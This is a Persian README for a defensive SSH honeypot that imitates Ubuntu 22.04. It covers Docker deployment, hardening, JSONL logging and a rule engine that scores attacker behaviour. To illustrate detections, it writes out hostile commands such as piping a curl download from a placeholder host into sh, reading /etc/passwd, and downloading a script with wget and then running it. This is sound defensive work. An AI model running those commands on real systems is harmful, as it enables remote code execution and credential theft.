

# Fake Ubuntu SSH Honeypot 3.0.1

یک SSH Honeypot تعاملی و قابل‌استقرار برای شبیه‌سازی Ubuntu Server 22.04 که
ورودی مهاجم را **هرگز** به shell، process، فایل‌سیستم یا شبکه واقعی تحویل
نمی‌دهد. تمام commandها و تغییرات فقط داخل state حافظه‌ای همان session هستند.

## وضعیت نسخه ۳.۰.۱

- Paramiko 5.0.0 و dependencyهای hash-locked
- Host Key پایدار، تزریق‌شده از environment و نگهداری‌شده فقط در RAM
- Production mode با fail-fast validation
- rate limit سراسری و per-IP با Token Bucket
- سقف اتصال هم‌زمان سراسری و per-IP
- VFS quota برای node، حجم کل، حجم فایل، path و query
- سقف history، command chain، command count و output
- JSON logger غیرمسدودکننده با صف محدود
- پیش‌فرض sha256 برای password؛ plain فقط در Development و redact نیز قابل‌انتخاب است
- رد صریح SFTP، subsystem، X11، Agent و TCP forwarding
- حذف الگوریتم‌های قدیمی SSH و فعال‌بودن Strict KEX
- shutdown صحیح با SIGTERM/SIGINT و flush لاگ‌ها
- Docker/Compose غیر-root و read-only؛ محدودسازی egress در firewall میزبان/ابر لازم است
- محدودیت RAM، CPU، PID و file descriptor
- log rotation، restart policy، CI و dependency audit
- تحلیل قانون‌محور فرمان‌ها، امتیاز ریسک و خلاصهٔ مستقل برای هر نشست
- همبستگی دانلود و تلاش برای اجرای همان فایل در یک نشست
- شاخص‌های محدود و پاک‌سازی‌شده، مراحل رفتار و هشدارهای بدون تکرار
- ورود آفلاین لاگ JSONL به SQLite و گزارش تجمیعی، بدون ذخیرهٔ پسورد
- ruleهای regex، confidence، کش محدود per-session و سابقهٔ ساختاریافتهٔ ۵۰۰ فرمان
- IOCهای IP/domain/URL/MD5/SHA256/file و هش زنجیره‌ای رویدادهای JSONL
- healthcheck کانتینر و ابزار گزارش متنی آفلاین بدون ذخیرهٔ فرمان‌ها

## معماری



تنها ارتباط واقعی، TCP ورودی SSH است. wget، curl، ping، apt، python3، git و
docker همگی پاسخ ساختگی تولید می‌کنند.

## ساختار پروژه

| مسیر | مسئولیت |
|---|---|
| honeypot/main.py | CLI، environment، signal handling و lifecycle |
| honeypot/config.py | تنظیمات validate‌شده و Production gates |
| honeypot/ssh_server.py | SSH، Host Key، thread lifecycle و رد forwarding |
| honeypot/rate_limit.py | Token Bucket و سقف connection |
| honeypot/session.py | state مستقل هر اتصال |
| honeypot/shell.py | PTY و line editor |
| honeypot/filesystem.py | فایل‌سیستم مجازی با quota |
| honeypot/commands.py | parser و پاسخ‌های fake |
| honeypot/logger.py | JSONL async و bounded |
| honeypot/intelligence/rules.py | قوانین قابل بررسی و دسته‌بندی تلاش‌های مهاجم |
| honeypot/intelligence/analyzer.py | تحلیل فرمان و خلاصهٔ هر نشست |
| honeypot/intelligence/indicators.py | استخراج IOCهای محدود و پاک‌سازی‌شده |
| honeypot/intelligence/patterns.py, cache.py, threat_score.py | regex، کش محدود و موتور امتیاز |
| honeypot/security/integrity.py | زنجیرهٔ هش JSONL |
| tools/analyze_log.py | گزارش آفلاین و بررسی یکپارچگی لاگ |
| tools/intel_report.py | ورود و گزارش SQLite؛ جدا از سرور SSH |
| honeypot/fake_data.py | داده‌های ساختگی Ubuntu |
| honeypot/keygen.py | تولید Host Key یک‌خطی برای environment |
| compose.yaml | استقرار hardened |
| SECURITY.md | مدل امنیتی |
| OPERATIONS.md | Runbook کامل Production |

## سریع‌ترین اجرای محلی با Docker

### ۱. ساخت Image

    docker compose build --pull

### ۲. تولید Host Key پایدار

    docker run --rm --entrypoint python \
      fake-ubuntu-ssh-honeypot:3.0.1 \
      -m honeypot.keygen > host-key.b64

### ۳. تنظیم environment

    cp .env.example .env
    chmod 600 .env

مقدار یک‌خطی host-key.b64 را مقابل HONEYPOT_HOST_KEY_B64 قرار دهید.

### ۴. اجرا

    docker compose up -d
    docker compose ps
    docker compose logs --tail=50 honeypot

### ۵. تست

    ssh -p 2222 \
      -o PreferredAuthentications=password \
      -o PubkeyAuthentication=no \
      root@127.0.0.1

هر password پذیرفته می‌شود؛ تلاش‌های احراز هویت در حالت پیش‌فرض فقط با هش
`sha256` و طول رمز ثبت می‌شوند. Exec request بات‌ها نیز پشتیبانی می‌شود:

    ssh -p 2222 root@127.0.0.1 'cd /var/log && pwd && tail -n 1 auth.log'

برای انتشار عمومی، ابتدا firewall خروجی کانتینر را روی میزبان/ابر مسدود
و بررسی کنید، سپس `HONEYPOT_PUBLIC_BIND=0.0.0.0` را در `.env` قرار دهید.
پیش‌فرض جدید `127.0.0.1` است؛ `.env` نسخهٔ قبلی در صورت داشتن مقدار
`0.0.0.0` باید دستی بازبینی شود.

## اجرای مستقیم برای Development

Production توصیه می‌شود فقط با Compose اجرا شود. برای تست محلی:

    python3 -m venv .venv
    source .venv/bin/activate
    python -m pip install --require-hashes -r requirements.lock
    python -m honeypot --development --host 127.0.0.1 --port 2222

اگر پورت ۲۲۲۲ اشغال بود، `--port 2223` بگذارید و SSH را نیز با `-p 2223`
وصل کنید.

Development یک Host Key موقت ۳۰۷۲ بیتی می‌سازد. Production بدون
HONEYPOT_HOST_KEY_B64 اجرا نمی‌شود.

## تست و Audit

از ریشهٔ پروژه اجرا کنید:

```bash
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements-dev.txt
pytest -q
```

اگر وابستگی‌های توسعه نصب نشده باشند، `conftest.py` قبل از جمع‌آوری تست‌ها
نام بسته‌های مفقود و دستور نصب را نمایش می‌دهد. اگر خود `pytest` هنوز نصب
نباشد، ابتدا سه فرمان اول را اجرا کنید. برای audit وابستگی‌ها نیز:

```bash
pip-audit -r requirements.lock
```

تست‌ها شامل command/filesystem behavior، session isolation، terminal controls،
no-exec/no-open invariants، resource exhaustion، rate limiter، credential modes،
Host Key stability و اتصال واقعی client/server با Paramiko هستند.

## فرمان‌های شبیه‌سازی‌شده

| گروه | فرمان‌ها |
|---|---|
| سیستم | whoami, id, hostname, uname, uptime, date, history |
| فایل | ls, ll, cd, pwd, cat, head, tail, find, touch, mkdir, rm, nano, vim |
| شبکه | ip, ifconfig, netstat, ss, ping |
| منابع | ps, top, free, df, du |
| مدیریت | systemctl, service, apt, apt-get |
| ابزار | wget, curl, python3, git, docker, docker compose |

زنجیره‌های محدود ; و && و || و pipeline با grep، head و tail نیز داخل parser
داخلی اجرا می‌شوند؛ هیچ shell واقعی در مسیر نیست.

## متغیرهای مهم

| متغیر | پیش‌فرض | کاربرد |
|---|---:|---|
| HONEYPOT_HOST_KEY_B64 | اجباری در Production | RSA private key به‌صورت base64 |
| HONEYPOT_CREDENTIAL_LOG_MODE | sha256 | sha256 یا redact در Production؛ plain فقط در Development |
| HONEYPOT_ALERT_MIN_RISK | 65 | حداقل امتیاز برای هشدار JSONL |
| HONEYPOT_INTELLIGENCE_ENABLED | true | فعال‌بودن تحلیل رفتار |
| HONEYPOT_IOC_ENABLED | true | استخراج IOC |
| HONEYPOT_MAX_SESSION_HISTORY | 500 | اندازهٔ حلقهٔ سابقهٔ ساختاریافتهٔ سشن |
| HONEYPOT_MAX_SCORE | 1000 | سقف امتیاز هر فرمان و سشن |
| HONEYPOT_LOG_HASHING | true | زنجیرهٔ SHA-256 هر فرایند |
| HONEYPOT_MAX_CONNECTIONS | 64 | اتصال فعال سراسری |
| HONEYPOT_MAX_CONNECTIONS_PER_IP | 4 | اتصال فعال هر IP |
| HONEYPOT_GLOBAL_RATE_PER_MINUTE | 120 | نرخ پذیرش سراسری |
| HONEYPOT_IP_RATE_PER_MINUTE | 12 | نرخ پذیرش هر IP |
| HONEYPOT_MAX_SESSION_SECONDS | 900 | سقف عمر session |
| HONEYPOT_VFS_MAX_NODES | 2048 | سقف file/directory مجازی |
| HONEYPOT_VFS_MAX_TOTAL_BYTES | 2097152 | سقف محتوای VFS |
| HONEYPOT_PUBLIC_PORT | 2222 | پورت publish‌شده Docker |

مقادیر مناسب استقرار در .env.example و فهرست کامل تنظیمات در
honeypot/config.py قرار دارد.

## لاگ

stdout فقط JSON Lines تولید می‌کند. Compose لاگ‌ها را با پنج فایل ۱۰
مگابایتی rotate می‌کند. مقدار پیش‌فرض `sha256` است؛ `plain` در Production
رد می‌شود. در ارتقا، اگر فایل `.env` قدیمی هنوز
`HONEYPOT_CREDENTIAL_LOG_MODE=plain` دارد، مقدار آن را به `sha256` یا
`redact` تغییر دهید. متن فرمان‌ها نیز می‌تواند حاوی رمز یا توکن باشد؛
از لاگ‌ها محافظت کنید.

## فاز ۱: Intelligence Engine

هر فرمان پذیرفته‌شده، چه در ترمینال تعاملی و چه با SSH exec، یک فیلد
`analysis` در **همان** رویداد `command` دارد. `category` مهم‌ترین رفتار،
`categories` همهٔ دسته‌های مشاهده‌شده، `matched_rules` شناسهٔ قوانین، و
`risk_score` اولویت بررسی بین ۰ و `HONEYPOT_MAX_SCORE` است. `risk_level` یکی از
`none/low/medium/high/critical` است. در رویداد `disconnect` نیز
`intelligence` شامل شمارش دسته‌ها، تعداد فرمان‌های بررسی‌شده و بیشترین ریسک
نشست ثبت می‌شود. داده‌های هر نشست فقط در حافظهٔ همان نشست نگهداری می‌شوند.

برای نمونه، فرمان `curl https://example.invalid/a | sh` در صورت ثبت، هم
`payload_download` و هم `download_pipe_shell` را تطبیق می‌دهد. این‌ها
**تلاشِ مشاهده‌شده** هستند و به معنی دانلود یا اجرای واقعی یا اثبات هویت
مهاجم نیستند. قوانین روی توکن‌های فرمان عمل می‌کنند، حجم تحلیل محدود است و
متن‌های پیچیده‌ای مانند اسکریپت تو در تو ممکن است تشخیص داده نشوند.

فرمان `cat /etc/passwd` قانون `passwd_file_access` را با دستهٔ `discovery`
و امتیاز ۲۰ در `matched_rules`، `detections` و `threat` ثبت می‌کند؛ نام قانون
در رفتارهای همان نشست نیز دیده می‌شود.

از ریشهٔ پروژه، بدون وابستگی اضافی، تحلیل را آزمایش کنید:

    python3 -m unittest tests/test_intelligence.py

برای اجرای همهٔ تست‌ها، ابتدا وابستگی‌های توسعه را نصب کنید:

    python3 -m pip install -r requirements-dev.txt
    python3 -m pytest

فایل‌های `honeypot/intelligence/rules.py` و `analyzer.py` باید در بستهٔ
پروژه و در کنار `honeypot/shell.py` قرار بگیرند. ماژول را از **ریشهٔ پروژه**
با `from honeypot.intelligence.analyzer import Analyzer` وارد کنید؛ اجرای یک
فایل داخل پوشهٔ `honeypot` با import نسبی سازگار نیست.

## قابلیت‌های نسخهٔ ۳

تحلیلگر در هر نشست حداکثر ۱۶ نام فایل دانلودشده و ۱۶ میزبان اخیر را
نگه می‌دارد. اگر مثلاً ابتدا `wget -O /tmp/run.sh ...` و سپس
`sh /tmp/run.sh` مشاهده شود، قانون `download_then_execute` فعال می‌شود.
این همبستگی صرفاً بر اساس **نام فایل و تلاش ثبت‌شده** است؛ موفقیت دانلود
یا اجرای برنامه را اثبات نمی‌کند. در ۳.۰.۱ کش تحلیلگر متن خام فرمان را
نگه نمی‌دارد؛ IOC می‌تواند URL کوتاه پاک‌سازی‌شده با میزبان و نام فایل
شناخته‌شده را داشته باشد. `analysis` فیلدهای `primary_rule`، `stages`
و `indicators` نسخهٔ قبل را حفظ می‌کند؛ userinfo، query و مسیرهای ناشناس
URL در IOCها ذخیره نمی‌شوند.

وقتی ریسک به حد `HONEYPOT_ALERT_MIN_RISK` برسد (پیش‌فرض ۶۵)، رویداد
`intelligence_alert` در همان JSONL صادر می‌شود. هر قانون اصلی در هر نشست
فقط یک بار هشدار می‌دهد. هشدار شامل متن فرمان نیست و ارتباط بیرونی
برقرار نمی‌کند. خلاصهٔ `disconnect` مراحل مشاهده‌شده و تعداد هشدارها را
هم دارد. حد هشدار را می‌توان با `--alert-min-risk 75` نیز تعیین کرد.

### گزارش و پایگاه‌دادهٔ آفلاین

ابزار گزارش **در سرویس SSH اجرا یا import نمی‌شود** و روی رایانهٔ تحلیلگر
یا میزبان جداگانه با فایل JSONL اجرا می‌شود:

    python3 tools/intel_report.py ingest honeypot.jsonl --db intel.sqlite
    python3 tools/intel_report.py report --db intel.sqlite
    python3 tools/intel_report.py report --db intel.sqlite --json

برای گرفتن JSONL از Compose:

    docker compose logs --no-color --no-log-prefix honeypot > honeypot.jsonl

ورود مجدد همان فایل با همان مسیر و شمارهٔ خط تکراری ایجاد نمی‌کند.
تعداد سطرهای واردشده، تکراری و نامعتبر در پاسخ `ingest` مشخص می‌شود.
اگر محتوای همان مسیر عوض شد، برای ورود تازه از `--source-id` متفاوت
استفاده کنید.
پایگاه‌داده به‌طور پیش‌فرض فقط متادیتای رویداد و تحلیل را نگه می‌دارد؛
**هیچ پسوردی ذخیره نمی‌کند**. اگر متن خام فرمان‌ها را هم می‌خواهید، گزینهٔ
`--include-commands` را هنگام `ingest` اضافه کنید و فایل SQLite را مانند
لاگ حساس محافظت کنید. داده‌های `plain` در JSONL اصلی همچنان حساس هستند.

تست‌های مستقل نسخهٔ ۳ را از ریشهٔ پروژه اجرا کنید:

    python3 -m unittest tests/test_intelligence_v3.py tests/test_intel_report.py

قوانین و همبستگی مبتنی بر نشانه‌اند: فرمان‌های داخل اسکریپت‌های تو در تو،
نام فایل‌های تغییرکرده و همهٔ روش‌های خروج داده را پوشش نمی‌دهند.

## تغییرات ۳.۰.۱: تحلیل و یکپارچگی

هر `Rule` متادیتای `name`, `patterns`, `type`, `score`, `severity`,
`category`, `mitre`, `confidence`, `description` دارد. تطبیق regex فقط روی
فراخوانی‌های parse‌شده انجام می‌شود؛ متن نمونه در `echo` نباید Reverse Shell
تشخیص داده شود. هر Detection دارای `confidence_score` (۰ تا ۱) و
`confidence_level` است: زیر ۰٫۳ `LOW`، از ۰٫۳ تا زیر ۰٫۷ `MEDIUM` و
از ۰٫۷ به بالا `HIGH`. برچسب MITRE تا زمان اعتبارسنجی خالی است.

`analysis.threat` امتیاز ترکیبی و سطح `NONE` (زیر ۱۰)، `LOW` (۱۰ تا ۲۹)،
`MEDIUM` (۳۰ تا ۵۹)، `HIGH` (۶۰ تا ۸۹) یا `CRITICAL` (۹۰ به بالا) دارد.
فیلدهای v3 (`risk_score`، `risk_level`، `matched_rules` و غیره) همچنان
موجود هستند؛ `risk_level` با آستانه‌های قبلی v3 باقی مانده است.
`session.threat_score` مجموع امتیاز قانون‌های یکتای آن نشست با سقف ۱۰۰۰
است؛ تکرار `uname -a` آن را افزایش نمی‌دهد. ساختار
`session.command_history` در حافظه تا ۵۰۰ رکورد زمان/فرمان/امتیاز/دسته
نگه می‌دارد و با بستن نشست آزاد می‌شود. سابقهٔ معمول shell همان
`HONEYPOT_HISTORY_LIMIT` پیشین است.

رویدادهای JSONL دارای `timestamp`, `event`, `session_id`, `attacker_ip`,
`threat`, `detections` و `ioc` هستند. رویدادهای فرمان، نام `command` و
فیلد `analysis` قبلی را حفظ می‌کنند؛ alert متن فرمان را تکرار نمی‌کند.
`integrity.prev_hash` و `integrity.hash` هش SHA-256 زنجیرهٔ خروجی همان
فرایندند. دستکاری/حذف در یک فایل کامل را می‌توان دید؛ بدون کلید امضا،
این هش اثبات اصالت در برابر فردی که همهٔ لاگ را بازنویسی کند نیست.
لاگ خام همچنان ممکن است پسورد و متن فرمان حساس داشته باشد.

برای جمع‌بندی آفلاین و بررسی یک فایل لاگ از یک اجرای فرایند:

    python3 tools/analyze_log.py honeypot.jsonl
    python3 tools/analyze_log.py honeypot.jsonl --json

خروجی `Top Commands` فقط نام برنامه را نمایش می‌دهد، نه آرگومان یا رمز.
کد خروج ۲ نشان‌دهندهٔ خط نامعتبر/زنجیرهٔ خراب است؛ لاگ قدیمی بدون هش
`UNVERIFIED` گزارش می‌شود. healthcheck Docker هر ۳۰ ثانیه اتصال TCP
محلی می‌زند و ممکن است رویداد اتصال ناموفق ایجاد کند.

## نکات الزامی

- روی سروری که اطلاعات یا workload مهم دارد اجرا نکنید.
- process را با sudo python و مستقیم روی پورت ۲۲ اجرا نکنید.
- ابتدا SSH مدیریتی را به مسیر امن دیگری منتقل کنید.
- علاوه بر شبکه داخلی Docker، egress را در firewall/cloud policy نیز ببندید.
- .env و Host Key را commit نکنید.
- قبل از هر release تست، audit و container build را اجرا کنید.

جزئیات کامل استقرار، پورت ۲۲، rotation، ارتقا و بازیابی در OPERATIONS.md و
مدل تهدید در SECURITY.md آمده است.
